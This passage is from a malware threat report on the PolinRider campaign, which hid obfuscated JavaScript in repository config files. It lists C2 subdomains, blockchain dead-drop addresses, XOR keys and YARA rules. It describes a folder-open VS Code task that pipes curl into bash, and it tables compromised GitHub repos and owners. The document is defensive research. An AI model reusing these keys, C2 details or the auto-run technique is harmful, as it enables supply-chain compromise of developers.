| **`default-configuration.vercel.app`** | **106** | Apr 2026 | Largest single-subdomain cluster found so far |
| **`vscode-settings-bootstrap.vercel.app`** | 16 | Apr 2026 | |
| **`vscode-settings-config.vercel.app`** | 11 | Apr 2026 | |
| **`vscode-bootstrapper.vercel.app`** | 6 | Apr 2026 | |
| **`vscode-load-config.vercel.app`** | 6 | Apr 2026 | |

All five of the `vscode-*` / `default-configuration` domains were discovered in the April 10–11 hunt and are now part of the OSM hunting query set. Expect more sibling subdomains as Vercel domains are cheap / disposable to the threat actor.

### Blockchain Addresses (PolinRider-JS-loader second-stage dead-drop)

#### TRON Addresses (Primary C2)
- **`TMfKQEd7TJJa5xNZJZ2Lep838vrzrs7mAP`** (Primary)
- **`TXfxHUet9pJVU1BgVkBAbrES4YUc1nGzcG`** (Secondary)

API Endpoint: `https://api.trongrid.io/v1/accounts/`

#### Aptos Transaction Hashes (Fallback C2)
- **`0xbe037400670fbf1c32364f762975908dc43eeb38759263e7dfcdabc76380811e`** (Primary)
- **`0x3f0e5781d0855fb460661ac63257376db1941b2bb522499e4757ecb3ebd5dce3`** (Secondary)

API Endpoint: `https://fullnode.mainnet.aptoslabs.com/v1/accounts/`

#### BSC RPC Nodes
- `bsc-dataseed.binance.org`
- `bsc-rpc.publicnode.com`

Method: `eth_getTransactionByHash`

### XOR Decryption Keys
- **Primary Key:** `2[gWfGj;<:-93Z^C`
- **Secondary Key:** `m6:tTh^D)cBz?NM]`

### StakingGame template UUID
- **`e9b53a7c-2342-4b15-b02d-bd8b8f6a03f9`** — appears in the `projectInfo.uuid` field of the malicious `.vscode/tasks.json` for the StakingGame fake-interview template. Highly specific; 0 false positives in testing.

### YARA Rule (Suggested) — covers both variants

The original `rmcej_otb_payload` rule (still valid for the original variant) has been superseded by a multi-variant rule that catches both the original `rmcej%otb%` strain and the rotated `Cot%3t=shtP` strain. Use this in static analysis pipelines.

```yara
rule polinrider_payload {
    meta:
        description = "Detects PolinRider shuffle-cipher JS payloads — both rmcej%otb% (v1) and Cot%3t=shtP (v2) variants"
        author = "OpenSourceMalware.com"
        date = "2026-04-10"
        severity = "high"

    strings:
        // Original variant (rmcej%otb%)
        $marker_v1   = "rmcej%otb%"
        $seed1_v1    = "2857687"
        $seed2_v1    = "2667686"
        $varname_v1  = "_$_1e42"
        $global_bang = "global['!']"

        // New variant (Cot%3t=shtP)
        $marker_v2   = "Cot%3t=shtP"
        $seed1_v2    = "1111436"
        $seed2_v2    = "3896884"
        $varname_v2  = "MDy"
        $global_V    = "global['_V']"

        // Common across variants
        $global_r    = "global['r'] = require"
        $global_m    = "global['m'] = module"

    condition:
        any of ($marker_*) or
        ($global_bang and ($seed1_v1 or $varname_v1)) or
        ($global_V    and ($seed1_v2 or $varname_v2)) or
        ($global_r and $global_m and (any of ($seed1_*)))
}
```

### YARA Rule (Legacy) — original variant only

```yara
rule rmcej_otb_payload {
    meta:
        description = "Detects rmcej%otb% shuffle-cipher JS payload injected into config files (original variant only)"
        author = "OpenSourceMalware.com"
        date = "2026-03-07"
        severity = "high"

    strings:
        $marker   = "rmcej%otb%"
        $global   = "global['!']"
        $seed1    = "2857687"
        $seed2    = "2667686"
        $varname  = "_$_1e42"

    condition:
        $marker or ($global and $seed1) or ($varname and $seed2)
}
```

---

## Data Collection (Mar 8 — original method)

Data was collected using the GitHub Code Search API via `gh search code`, running one query per infected filename to work around the 1,000-result-per-query cap. Results were deduplicated by repository full name.

| Filename searched | Results |
|-------------------|--------:|
| `postcss.config.mjs` | 416 |
| `tailwind.config.js` | 84 |
| `eslint.config.mjs` | 60 |
| `App.js` | 13 |
| `postcss.config.js` | 13 |
| `next.config.mjs` | 12 |
| `index.js` | 6 |
| `astro.config.mjs` | 6 |
| Other config files | 81 |
| **Total (pre-dedup)** | **700** |
| **Unique repos** | **675** |

## Refinement Methodology (Apr 10 — expanded method)

The April 10 hunt expanded the data collection by combining **five orthogonal pivots** and applying a **partition-by-extension/size/fork** strategy to push past GitHub Code Search's 1,000-result-per-query cap on the most powerful pivot.

### Pivots used in the April 10–11 hunt

| # | Pivot | Engine | Unique repos contributed |
|---|---|---|---:|
| 1 | `filename:temp_auto_push.bat` | GitHub Code Search | 101 |
| 2 | `"_$_1e42"` (with extension/size/fork refinement) | GitHub Code Search | 1,323 |
| 3 | `"function MDy(f)" global _V` | GitHub Code Search | 14 |
| 4 | `LAST_COMMIT_DATE LAST_COMMIT_TIME extension:bat` | GitHub Code Search | 236 |
| 5 | `Cot%3t=shtP` regex with `fork:yes archived:yes` | Sourcegraph | 41 |
| **Round 1 combined** | | | **1,556** |
| 6 | `"<malicious_npm_package>" filename:package.json` (7 npm packages) | GitHub Code Search | 46 |
| 7 | `<url> filename:tasks.json` (vercel.app, onrender.com, 260120.vercel.app) | GitHub Code Search | 145 |
| 8 | `"default-configuration.vercel.app"` and 4 sibling `vscode-*.vercel.app` subdomains | GitHub Code Search | 94 |
| 9 | `"e9b53a7c-2342-4b15-b02d-bd8b8f6a03f9"` (StakingGame template UUID) | GitHub Code Search | 42 |
| 10 | Sequential `'8-stN'` 1–200 enumeration (checking for unindexed sequential tags) | Sourcegraph regex | 0 new |
| **Round 2 combined** | | | **+215** |
| **Total unique (both rounds + existing CSV)** | | | **1,951** |

### Pushing past the 1,000-result cap

The `_$_1e42` decoder-function-name query reported `total_count: 968` and capped at 1,000 returned items, but the GitHub web UI showed 1,400+ matches. Refining into orthogonal sub-queries that each stay under 1,000 results, then taking the union, broke the cap:

| Refinement | total_count |
|---|---:|
| `extension:js` | 430 |
| `extension:mjs` | 676 |
| `extension:cjs` | 17 |
| `extension:ts` | 7 |
| `extension:html` | 1 |
| `size:<5000` | 4 |
| `size:5000..6000` | 630 |
| `size:6000..7000` | 125 |
| `size:7000..8000` | 139 |
| `size:8000..9000` | 56 |
| `size:9000..10000` | 36 |
| `size:10000..50000` | 112 |
| `size:>50000` | 12 |
| `fork:true` | **157** (excluded by default!) |

Three crucial findings from this exercise:

1. **The single biggest hidden gap was forks.** GitHub Code Search excludes forks by default (`fork:false`). Adding `fork:true` revealed 157 fork repos containing the marker that were completely invisible to the original query.
2. **Sub-bucketing the `size:5000..10000` range by 1KB slices yielded 986 results vs. the bucket's reported 968** — even within a sub-1000 reported total, the cap can hide entries. The right approach is *recursive bucketing* until each bucket is well under the cap.
3. **`extension:` splits yield more total results than `language:` splits** because GitHub's language detection sometimes excludes `.mjs` and `.cjs` from the JavaScript bucket.

### Cross-engine union (true scope)

Combining the April 10–11 hunt data with the existing `affected_repos.csv` yields the **true currently-known corpus**:

| Source | Unique repos | Unique owners |
|---|---:|---:|
| Original Mar 8 publication | 675 | 352 |
| `affected_repos.csv` (Mar 18 update) | 769 | 399 |
| April 10 v3 master (5 pivots) | 1,556 | 835 |
| April 11 round 2 (5 additional pivots) | +215 net new | +158 net new |
| **Union (true scope, Apr 11)** | **1,951** | **1,047** |

### Sample-verified false positive rate

Across **44 random samples** taken across both rounds of the hunt, **0 false positives** were observed. Every sampled repo contained at least one of the PolinRider invariants (`rmcej%otb%`, `Cot%3t=shtP`, `_$_1e42`, `MDy`, `global['!']`, `global['_V']`, `LAST_COMMIT_DATE` inside a propagation `.bat`, a known malicious npm package in `package.json`, or a `.vscode/tasks.json` with a `curl | bash` to one of the known C2 subdomains) in the file at the indexed pivot path.

Round 2 specifically introduced two new variant classifications in the submission taxonomy:
- **`malicious_npm`**: the repo contains one of the 7 known malicious npm packages in a `package.json` (45 submissions — almost all ShoeVista template reuploads).
- **`tasksjacker`**: the repo contains a `.vscode/tasks.json` with a `runOn: folderOpen` task executing `curl | bash` or `wget | sh` against a Vercel/Render/Railway C2 subdomain (27 submissions — includes the StakingGame template cluster).

---

## Files

| File | Description |
|------|-------------|
| `README.md` | This report |
| `polinrider-rides-again.md` | Follow-up blog (Apr 11) covering the campaign growth, the TasksJacker / PolinRider merger, and the full end-to-end payload reverse engineering |
| `affected_repos.csv` | Affected repositories — organisations first, then users, each sorted by stars+forks descending. **Note:** as of 2026-04-11 this CSV contains 769 entries from the March 18 collection. The April 10–11 hunts added ~1,180 new repos that have not yet been merged into this CSV (they are tracked in `reports/polinrider-master-v3-1556.tsv` and `reports/polinrider-round2-repos.txt`). True known scope is **1,951** unique repos. |
| `affected_users.csv` | Affected owners — organisations first, then users, each sorted by followers descending. As of 2026-04-11 contains 399 entries; April hunt union is **1,047** owners. |
| `reports/polinrider-master-v3-1556.tsv` | April 10 hunt master list: `repo \t osm_status \t threat_id \t severity \t sources` for all 1,556 repos found in the v3 hunt |
| `reports/polinrider-new-v3.tsv` | The 705 repos newly added to OSM on 2026-04-10 |
| `reports/polinrider-round2-repos.txt` | Round 2 clean master list (239 unique repos from the 5 new pivots) |
| `reports/polinrider-round2-submissions-2026-04-11.tsv` | The 72 repos newly added to OSM on 2026-04-11 (round 2) |
| `reports/polinrider-scope-v3-2026-04-10.md` | Full v3 scope report including refinement methodology and false-positive analysis |
| `reports/polinrider-submissions-2026-04-10.md` | Mass submission report for the 704 OSM threat reports filed on 2026-04-10 |
| `reports/polinrider-scope-v3-2026-04-10.md` | v3 scope report |

---

## Compromised Repositories

All compromised repositories can be found through the OpenSourceMalware tag [#polinrider](https://opensourcemalware.com/?search=%23polinrider).

### Outreach Prioritisation

The full CSVs are sorted by impact for triage.

#### Top Repos by Stars + Forks

| Repository | Stars | Forks | Infected File |
|------------|------:|------:|---------------|
| `Codechef-VITC-Student-Chapter/Club-Integration-and-Management-Platform` | 6 | 11 | `postcss.config.mjs` |
| `Victorola-coder/tewo` | 9 | 6 | `tailwind.config.js` |
| `Kreliannn/Document-Request-System-FRONTEND` | 8 | 1 | `postcss.config.mjs` |
| `Atik203/Scholar-Flow` | 4 | 4 | `postcss.config.mjs` |
| `sparktechagency/Vap-shop-Front-End-` | 7 | 0 | `postcss.config.mjs` |
| `Kreliannn/PDF-To-Reviewer-Quiz-FRONTEND` | 7 | 0 | `postcss.config.mjs` |
| `coderkhalide/Anti-Detect-Browser` | 2 | 4 | `tailwind.config.js` |
| `tanushbhootra576/Bionary-Website-Challenge-and-final` | 4 | 2 | `tailwind.config.js` |
| `tanushbhootra576/collegeConnect` | 5 | 1 | `postcss.config.mjs` |
| `Kreliannn/commision_portfolio` | 6 | 0 | `postcss.config.mjs` |

#### Top Organisations by Followers

| Organisation | Followers | Repos Affected |
|--------------|----------:|---------------:|
| `sparktechagency` | 130 | 12 |
| `FSDTeam-SAA` | 21 | 12 |
| `Softvence-Omega-Dev-Ninjas` | 18 | 4 |
| `Codechef-VITC-Student-Chapter` | 17 | 1 |
| `softvence-omega-future-stack` | 11 | 4 |
| `The-Extra-Project` | 11 | 1 |
| `etrainermis` | 7 | 1 |
| `tricodenetwork` | 7 | 1 |
| `Binary-Mindz` | 6 | 1 |
| `Gamage-Recruiters-406` | 5 | 1 |

#### Top Individual Users by Followers

| User | Followers | Repos Affected |
|------|----------:|---------------:|
| `coderkhalide` | 349 | 4 |
| `finom` | 172 | 4 |
| `Victorola-coder` | 121 | 1 |
| `dhruvmalik007` | 87 | 6 |
| `saif72437` | 57 | 2 |
| `a-belard` | 43 | 1 |
| `Muhammadfaizanjanjua109` | 39 | 1 |
| `Nathanim1919` | 38 | 5 |
| `kanchana404` | 33 | 3 |
| `AKDebug-UX` | 30 | 4 |

> **Priority targets:** `sparktechagency` (130 followers, 12 repos) and `FSDTeam-SAA` (21 followers, 12 repos) are the highest-volume orgs. Among individuals, `coderkhalide` (349 followers) has the widest direct reach.

---
### All Compromised Repositories as of March 8, 2026

| # | Repository | Owner | Owner Type | Stars | Forks | Infected Files | File Paths | Description | Repo URL |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 1 | Codechef-VITC-Student-Chapter/Club-Integration-and-Management-Platform | Codechef-VITC-Student-Chapter | Organization | 6 | 11 | 1 | Client/postcss.config.mjs |  | https://github.com/Codechef-VITC-Student-Chapter/Club-Integration-and-Management-Platform |
| 2 | sparktechagency/Vap-shop-Front-End- | sparktechagency | Organization | 7 | 0 | 1 | postcss.config.mjs | VapeShopMaps – A B2B social and e-commerce platform connecting users, stores, brands, and wholesalers with real-time social features and advanced SEO optimization. | https://github.com/sparktechagency/Vap-shop-Front-End- |
| 3 | MIS-Silekta/silekta-frontend | MIS-Silekta | Organization | 1 | 3 | 1 | postcss.config.mjs | This is the frontend repository of the silekta company for the MIS module. | https://github.com/MIS-Silekta/silekta-frontend |
| 4 | UzairOrganization/allTask | UzairOrganization | Organization | 0 | 2 | 1 | postcss.config.mjs |  | https://github.com/UzairOrganization/allTask |
| 5 | FSDTeam-SAA/nico41278-frontend | FSDTeam-SAA | Organization | 0 | 2 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/nico41278-frontend |
| 6 | FSDTeam-SAA/cstrat_frontend | FSDTeam-SAA | Organization | 1 | 1 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/cstrat_frontend |
| 7 | SoftySkills/quiz_app | SoftySkills | Organization | 3 | 0 | 1 | postcss.config.mjs |  | https://github.com/SoftySkills/quiz_app |
| 8 | dawahanigeria-team/rayyan-server | dawahanigeria-team | Organization | 3 | 0 | 1 | eslint.config.mjs | Rayyan App Server | https://github.com/dawahanigeria-team/rayyan-server |
| 9 | FSDTeam-SAA/sahara_53 | FSDTeam-SAA | Organization | 0 | 1 | 1 | postcss.config.mjs | Build a Story Time is an AI-powered platform that lets users create personalized storybooks using their own voice and faces as characters. It transforms storytelling into a magical, interactive, and deeply personal experience. | https://github.com/FSDTeam-SAA/sahara_53 |
| 10 | FSDTeam-SAA/lowready-frontend | FSDTeam-SAA | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/lowready-frontend |
| 11 | Addis-Career/Frontend | Addis-Career | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/Addis-Career/Frontend |
| 12 | etrainermis/mineduc-Form | etrainermis | Organization | 0 | 1 | 1 | postcss.config.mjs | EAC World Kiswahili Language Day Celebrations Forum | https://github.com/etrainermis/mineduc-Form |
| 13 | FSDTeam-SAA/brazen-kits | FSDTeam-SAA | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/brazen-kits |
| 14 | FSDTeam-SAA/Igghy-dashboard | FSDTeam-SAA | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/Igghy-dashboard |
| 15 | FlowBondTech/danz-miniapps | FlowBondTech | Organization | 0 | 1 | 2 | danz-main/postcss.config.mjs \| daily-danz/postcss.config.mjs |  | https://github.com/FlowBondTech/danz-miniapps |
| 16 | BrennansWave-com/brennanswave | BrennansWave-com | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/BrennansWave-com/brennanswave |
| 17 | FlowBondTech/danz-web | FlowBondTech | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/FlowBondTech/danz-web |
| 18 | QualifyAI/qualify-frontend | QualifyAI | Organization | 0 | 1 | 1 | postcss.config.mjs |  | https://github.com/QualifyAI/qualify-frontend |
| 19 | FSDTeam-SAA/ftfdesignco-backend | FSDTeam-SAA | Organization | 0 | 1 | 1 | src/router/index.js |  | https://github.com/FSDTeam-SAA/ftfdesignco-backend |
| 20 | Gamage-Recruiters-406/Rent_a_Car | Gamage-Recruiters-406 | Organization | 1 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/Gamage-Recruiters-406/Rent_a_Car |
| 21 | Umbrelabs-Projects/Procobiz | Umbrelabs-Projects | Organization | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/Umbrelabs-Projects/Procobiz |
| 22 | The-Extra-Project/Extra_surface_repo | The-Extra-Project | Organization | 1 | 0 | 1 | frontend/postcss.config.mjs | deployment version of the Laurent's version for Extra-surface. | https://github.com/The-Extra-Project/Extra_surface_repo |
| 23 | Automobile-System/frontend | Automobile-System | Organization | 1 | 0 | 1 | postcss.config.mjs |  | https://github.com/Automobile-System/frontend |
| 24 | VplayProCrypto/mvp_vercel | VplayProCrypto | Organization | 1 | 0 | 1 | tailwind.config.js | Repositiory of phase 1 mvp | https://github.com/VplayProCrypto/mvp_vercel |
| 25 | sparktechagency/nskustoms_custom_game_site-2.0 | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/nskustoms_custom_game_site-2.0 |
| 26 | softvence-omega-future-stack/gameluke-frontend | softvence-omega-future-stack | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/softvence-omega-future-stack/gameluke-frontend |
| 27 | NexumTechnologies/E-Commerce | NexumTechnologies | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/NexumTechnologies/E-Commerce |
| 28 | Umbrelabs-Projects/Hostella-superAdmin | Umbrelabs-Projects | Organization | 0 | 0 | 1 | postcss.config.mjs | This repo is for those who will register admins  | https://github.com/Umbrelabs-Projects/Hostella-superAdmin |
| 29 | FSDTeam-SAA/admin-dashboard-gman | FSDTeam-SAA | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/admin-dashboard-gman |
| 30 | sparktechagency/protippz_website | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/protippz_website |
| 31 | FlowRMS/flow-connect-frontend-new | FlowRMS | Organization | 0 | 0 | 1 | postcss.config.mjs | FlowConnect Frontend Application | https://github.com/FlowRMS/flow-connect-frontend-new |
| 32 | Anthem-InfoTech-Pvt-Ltd/dashboards | Anthem-InfoTech-Pvt-Ltd | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Anthem-InfoTech-Pvt-Ltd/dashboards |
| 33 | WeOwnAiAgents-Hackerhouse/WeOwnAiAgent | WeOwnAiAgents-Hackerhouse | Organization | 0 | 0 | 1 | postcss.config.mjs | building the ultimate orchestration agent orchestration platform which is sovereign, tokenomics driven and build for web3 community . Contribution for ethdenver hackathon.  | https://github.com/WeOwnAiAgents-Hackerhouse/WeOwnAiAgent |
| 34 | Karigar-App/Karigar | Karigar-App | Organization | 0 | 0 | 1 | packages/ui/postcss.config.mjs |  | https://github.com/Karigar-App/Karigar |
| 35 | sparktechagency/silicon-zisan-website | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/silicon-zisan-website |
| 36 | FSDTeam-SAA/hinkel-Website | FSDTeam-SAA | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/hinkel-Website |
| 37 | FSDTeam-SAA/iwmsadvisors | FSDTeam-SAA | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FSDTeam-SAA/iwmsadvisors |
| 38 | Umbrelabs-Projects/Hostella-admin | Umbrelabs-Projects | Organization | 0 | 0 | 1 | postcss.config.mjs | Hostella admin platform  | https://github.com/Umbrelabs-Projects/Hostella-admin |
| 39 | Umbrelabs-Projects/Hostella-stu | Umbrelabs-Projects | Organization | 0 | 0 | 1 | postcss.config.mjs | Hostella student hostel booking platform | https://github.com/Umbrelabs-Projects/Hostella-stu |
| 40 | iwb25-412-vertex-prime/apigateway-v1 | iwb25-412-vertex-prime | Organization | 0 | 0 | 1 | userportal/postcss.config.mjs | User Portal + Management Layer \| Quota management, Rule enforcement, API key validation. | https://github.com/iwb25-412-vertex-prime/apigateway-v1 |
| 41 | Cloudrika/cloudrika-web | Cloudrika | Organization | 0 | 0 | 2 | packages/ui/postcss.config.mjs \| apps/email-portal/next.config.mjs |  | https://github.com/Cloudrika/cloudrika-web |
| 42 | sparktechagency/consult_dashboard | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/consult_dashboard |
| 43 | sparktechagency/jonowoods-website | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/jonowoods-website |
| 44 | Softvence-Omega-Dev-Ninjas/diaz-jupiter-marine-frontend | Softvence-Omega-Dev-Ninjas | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Softvence-Omega-Dev-Ninjas/diaz-jupiter-marine-frontend |
| 45 | sparktechagency/profitable-website-v2 | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/profitable-website-v2 |
| 46 | musetax/Amus-fe | musetax | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/musetax/Amus-fe |
| 47 | sparktechagency/faceAi-front-end | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/faceAi-front-end |
| 48 | sparktechagency/any-job-dashboard | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/any-job-dashboard |
| 49 | sparktechagency/anyjob-web | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/anyjob-web |
| 50 | softvence-omega-future-stack/lawalx_frontend | softvence-omega-future-stack | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/softvence-omega-future-stack/lawalx_frontend |
| 51 | softvence-omega-future-stack/kilian-rodhe-last- | softvence-omega-future-stack | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/softvence-omega-future-stack/kilian-rodhe-last- |
| 52 | WeOwnNetwork/EthDenver-submission | WeOwnNetwork | Organization | 0 | 0 | 1 | apps/web/postcss.config.mjs | Building the #FedArch orchestration infra client with onchain agent registry. submission for ETHDenver 2026 hackathon | https://github.com/WeOwnNetwork/EthDenver-submission |
| 53 | sparktechagency/betopia-website | sparktechagency | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/sparktechagency/betopia-website |
| 54 | FlowRMSLabs/flowdemandwebsite | FlowRMSLabs | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/FlowRMSLabs/flowdemandwebsite |
| 55 | BhavikPatel-dreamz/wove-gift-portal | BhavikPatel-dreamz | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/BhavikPatel-dreamz/wove-gift-portal |
| 56 | BhavikPatel-dreamz/DynamicDreamz-AIagent-Demos | BhavikPatel-dreamz | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/BhavikPatel-dreamz/DynamicDreamz-AIagent-Demos |
| 57 | GARAGE-POS/nextjs_test | GARAGE-POS | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/GARAGE-POS/nextjs_test |
| 58 | BhavikPatel-dreamz/Homeopathway | BhavikPatel-dreamz | Organization | 0 | 0 | 1 | postcss.config.mjs | Homeopathway | https://github.com/BhavikPatel-dreamz/Homeopathway |
| 59 | digitalschool-tech/tech-static | digitalschool-tech | Organization | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/digitalschool-tech/tech-static |
| 60 | tricodenetwork/lock-up | tricodenetwork | Organization | 0 | 0 | 1 | frontend/postcss.config.mjs |  | https://github.com/tricodenetwork/lock-up |
| 61 | Sahl-AI/sahl-ai-iframe | Sahl-AI | Organization | 0 | 0 | 1 | tailwind.config.js | This contains the demo react app to test iframe approach | https://github.com/Sahl-AI/sahl-ai-iframe |
| 62 | dawahanigeria-team/domainping | dawahanigeria-team | Organization | 0 | 0 | 1 | frontend/tailwind.config.js |  | https://github.com/dawahanigeria-team/domainping |
| 63 | shahid538org/microrealestate | shahid538org | Organization | 0 | 0 | 1 | webapps/landlord/tailwind.config.js |  | https://github.com/shahid538org/microrealestate |
| 64 | orynth-dev/vite-shadcn-template | orynth-dev | Organization | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/orynth-dev/vite-shadcn-template |
| 65 | FlowBondTech/egator | FlowBondTech | Organization | 0 | 0 | 1 | apps/web/tailwind.config.js | AIeGator - AI-powered event aggregation engine (ETHDenver via Luma) | https://github.com/FlowBondTech/egator |
| 66 | sparktechagency/u_tee_hub | sparktechagency | Organization | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/sparktechagency/u_tee_hub |
| 67 | Enigma-Incorporated-Ltd/N0DE-Website | Enigma-Incorporated-Ltd | Organization | 0 | 0 | 2 | tailwind.config.js \| src/tailwind.config.js |  | https://github.com/Enigma-Incorporated-Ltd/N0DE-Website |
| 68 | FSDTeam-SAA/AMES_Investment_new | FSDTeam-SAA | Organization | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/FSDTeam-SAA/AMES_Investment_new |
| 69 | Frontier-tech-consulting/olas-mcp-application-workflow | Frontier-tech-consulting | Organization | 0 | 0 | 1 | docs/tailwind.config.js | This consist of the corresponding UI mockup workflow regarding the Olas ecosystem (for letting users run the MCP application for doing onchain interactions). | https://github.com/Frontier-tech-consulting/olas-mcp-application-workflow |
| 70 | Softvence-Omega-Dev-Ninjas/vic_pec_server_app | Softvence-Omega-Dev-Ninjas | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Softvence-Omega-Dev-Ninjas/vic_pec_server_app |
| 71 | Softvence-Omega-Dev-Ninjas/jdadzok_server | Softvence-Omega-Dev-Ninjas | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Softvence-Omega-Dev-Ninjas/jdadzok_server |
| 72 | Binary-Mindz/agimtula_server | Binary-Mindz | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Binary-Mindz/agimtula_server |
| 73 | Softvence-Omega-Dev-Ninjas/alvaaro-server | Softvence-Omega-Dev-Ninjas | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Softvence-Omega-Dev-Ninjas/alvaaro-server |
| 74 | Softvence-Omega-Cyber-Monk/nishant-server | Softvence-Omega-Cyber-Monk | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Softvence-Omega-Cyber-Monk/nishant-server |
| 75 | softvence-omega-future-stack/huss-be | softvence-omega-future-stack | Organization | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/softvence-omega-future-stack/huss-be |
| 76 | BhavikPatel-dreamz/Products-filters-react | BhavikPatel-dreamz | Organization | 0 | 0 | 1 | src/App.js |  | https://github.com/BhavikPatel-dreamz/Products-filters-react |
| 77 | Victorola-coder/tewo | Victorola-coder | User | 9 | 6 | 1 | tailwind.config.js | tewosimi boboyi, ebi n pami | https://github.com/Victorola-coder/tewo |
| 78 | Atik203/Scholar-Flow | Atik203 | User | 4 | 4 | 1 | apps/frontend/postcss.config.mjs | ScholarFlow is a SaaS platform designed for researchers, students, professors, and academic teams to Upload, organize, and review research papers with collections, annotations, search, and team collaboration in a shared research library | https://github.com/Atik203/Scholar-Flow |
| 79 | Kreliannn/Document-Request-System-FRONTEND | Kreliannn | User | 8 | 1 | 1 | postcss.config.mjs | A web-based system that allows residents to request barangay documents online without visiting the barangay hall. Residents can track their request status, receive email notifications, and view request history. The barangay admin can manage requests, update statuses, and track transaction history. | https://github.com/Kreliannn/Document-Request-System-FRONTEND |
| 80 | coderkhalide/Anti-Detect-Browser | coderkhalide | User | 2 | 4 | 1 | src/renderer/tailwind.config.js |  | https://github.com/coderkhalide/Anti-Detect-Browser |
| 81 | WeerasingheMSC/ASMS_Frontend | WeerasingheMSC | User | 1 | 4 | 1 | asms_frontend/postcss.config.mjs | Full-stack Automobile Service Time Logging & Appointment System built with Next.js, TypeScript, TailwindCSS, and Ant Design for the frontend. Includes customer and employee portals, real-time service tracking, appointment booking, time logging, and containerized deployment. | https://github.com/WeerasingheMSC/ASMS_Frontend |
| 82 | fsdteam8/n_Krypted-frontend | fsdteam8 | User | 0 | 4 | 1 | postcss.config.mjs |  | https://github.com/fsdteam8/n_Krypted-frontend |
| 83 | tanushbhootra576/Bionary-Website-Challenge-and-final | tanushbhootra576 | User | 4 | 2 | 1 | bionary_website/tailwind.config.js |  | https://github.com/tanushbhootra576/Bionary-Website-Challenge-and-final |
| 84 | Kreliannn/PDF-To-Reviewer-Quiz-FRONTEND | Kreliannn | User | 7 | 0 | 1 | postcss.config.mjs |  A web app that use Ai to turn pdf files into Q&A type Reviewer. user can customize the generated output before saving. User can Review and Take Customizable  Quiz using that saved ai gererated Reviewer | https://github.com/Kreliannn/PDF-To-Reviewer-Quiz-FRONTEND |
| 85 | tanushbhootra576/collegeConnect | tanushbhootra576 | User | 5 | 1 | 1 | postcss.config.mjs |  | https://github.com/tanushbhootra576/collegeConnect |
| 86 | brown2020/ikigaifinder | brown2020 | User | 4 | 1 | 1 | postcss.config.mjs |  | https://github.com/brown2020/ikigaifinder |
| 87 | Kreliannn/commision_portfolio | Kreliannn | User | 6 | 0 | 1 | postcss.config.mjs |  | https://github.com/Kreliannn/commision_portfolio |
| 88 | coderkhalide/Trading-Journal | coderkhalide | User | 4 | 1 | 1 | postcss.config.mjs | Professional trading journal to track, analyze and improve your trading performance across different systems and timeframes. | https://github.com/coderkhalide/Trading-Journal |
| 89 | tanushbhootra576/weather | tanushbhootra576 | User | 4 | 1 | 1 | postcss.config.mjs | hackathon project | https://github.com/tanushbhootra576/weather |
| 90 | Kreliannn/student-passed-rate-analysis-frontend | Kreliannn | User | 5 | 0 | 1 | postcss.config.mjs |  | https://github.com/Kreliannn/student-passed-rate-analysis-frontend |
| 91 | Kreliannn/pharmacy-management-frontend | Kreliannn | User | 5 | 0 | 1 | postcss.config.mjs |  | https://github.com/Kreliannn/pharmacy-management-frontend |
| 92 | Kreliannn/Employee-management-frontend | Kreliannn | User | 5 | 0 | 1 | postcss.config.mjs |  | https://github.com/Kreliannn/Employee-management-frontend |
| 93 | Kreliannn/e-commerce-frontend | Kreliannn | User | 5 | 0 | 1 | postcss.config.mjs |  | https://github.com/Kreliannn/e-commerce-frontend |
